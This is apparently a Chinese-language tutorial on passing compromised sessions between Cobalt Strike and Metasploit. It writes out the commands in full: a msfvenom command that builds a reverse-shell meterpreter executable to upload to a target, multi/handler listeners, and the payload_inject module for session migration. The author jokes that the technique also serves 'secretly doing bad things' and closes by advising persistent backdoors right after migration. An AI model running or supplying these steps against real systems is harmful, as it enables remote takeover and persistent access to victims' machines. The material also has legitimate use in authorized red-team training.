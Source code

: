 # 1. 前言

在日常渗透测试或者是你偷偷干坏事的时候，可能会发现，CS确实是一个强大的后渗透工具，但是奈何CS很多关于漏洞的功能都是只能检测，但是不能攻击，所以需要CS与MSF互相联动起来，这里我就利用一个永恒之蓝漏洞来

# 2. CS联动MSF

CS联动MSF，主要是将CS的会话移交给MSF。

## 2.1. 案例测试

CS上各种插件只能漏洞检测，并不能对漏洞进行利用，所以可以将CS的会话迁移给MSF来进行利用，这里前期的操作就是不介绍了。

这里还需要注意CS4.5好像联动有问题，这里建议换成4.7.2以上，同时还有一个问题就是，本地测试使用4.7也没什么问题，但是如果在实际的攻防中最好使用4.7.2以上版本，4.7是存在xss漏洞的，容易被反制。

### 2.1.1. CS设置联动监听器

这里设置联动监听器，一定要按照下面的配置来配置，名字一定要记录下来，后面会使用到。

![image-20230727140237862](assets/image-20230727140237862.png)

### 2.1.2. CS设置联动MSF会话

这里截图不方便，我就口述一下，首先按照上面的步骤将监听器创建出来，然后选择一个上线的会话，点击新建会话，然后选择的监听器选择刚刚创建的MSF。

当然也可以使用命令来实现，命令后面的msf其实就是刚刚设置监听器的名称。

```
spawn msf
```

![image-20230727140518883](assets/image-20230727140518883.png)

### 2.1.3. MSF设置监听

按照下面的输入，也可以看到会话是成功转移到msf上了。

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http   ##这里一定不要输入错误，你上面监听器是http，那么这里就是http
set lhost 0.0.0.0
set lport 3010                  ##端口根据你自己的修改，我这里是3010
run
```

![image-20230727140613326](assets/image-20230727140613326.png)

![image-20230727140742351](assets/image-20230727140742351.png)

# 3. MSF联动CS

MSF联动CS，主要是将MSF的会话转移到CS上。

## 3.1. 案例测试

这里就从头来一下吧，利用MSF生成木马，让其上线然后在转交给CS。

### 3.1.1. MSF生成木马

这里生成一个木马，然后上传到目标主机上，主要要注意这个IP地址和端口别设置错了或者忘记了。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXXX.XXX.XXXX.XX LPORT=4444 -f exe -o 123.exe
```

![image-20230728085304783](assets/image-20230728085304783.png)

### 3.1.2. 设置监听

这里设置的监听，就是将上面的木马，再执行后能够建立会话。

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3000
exploit
```

![image-20230728090432466](assets/image-20230728090432466.png)

### 3.1.3. CS设置监听

这里设置监听，由于是MSF主动去连接CS，所以这里设置反向连接即可。

![image-20230728090554601](assets/image-20230728090554601.png)

### 3.1.4. MSF转移会话

到转移会话这里，主要就是将MSF刚刚木马上线的会话迁移到CS上。

```
use exploit/windows/local/payload_inject //使用该模块可以将 Metasploit 获取到的会话注入到CS中
set payload windows/meterpreter/reverse_http //和cs监听器保持一致
set prependmigrate true     #可以不设置，但是端口不要和CS冲突了。
set DisablePayloadHandler true  #可以不设置
set lhost XXXX.XXX.XXX.XX    //CS的IP
set lport XXX   //CS上的listen端口
set session 1   //要转发的session
run 
```

![image-20230728090909791](assets/image-20230728090909791.png)

![image-20230728090844429](assets/image-20230728090844429.png)

### 3.1.5. 查看上线

这里可以看到是成功上线了。

![image-20230728090937756](assets/image-20230728090937756.png)

# 4. 其它

这里主要就是介绍如何迁移会话，迁移会话后尽量在条件允许的情况快，尽快建立起相应的后门，比如你MSF迁移到CS，迁移后尽快上传CS的木马，免得掉线或者不注意MSF被关闭了。

至于上线操作，想必应该都会。
